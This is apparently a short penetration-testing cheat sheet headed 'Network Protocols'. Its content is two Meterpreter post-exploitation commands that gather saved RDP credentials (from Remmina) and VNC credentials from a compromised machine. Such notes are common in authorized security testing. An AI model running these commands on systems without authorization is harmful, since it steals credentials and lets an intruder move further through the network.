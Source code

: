 # Network Protocols

## RDP

```
meterpreter > run post/multi/gather/remmina_creds
```

## VNC

```
meterpreter > run post/windows/gather/credentials/vnc
```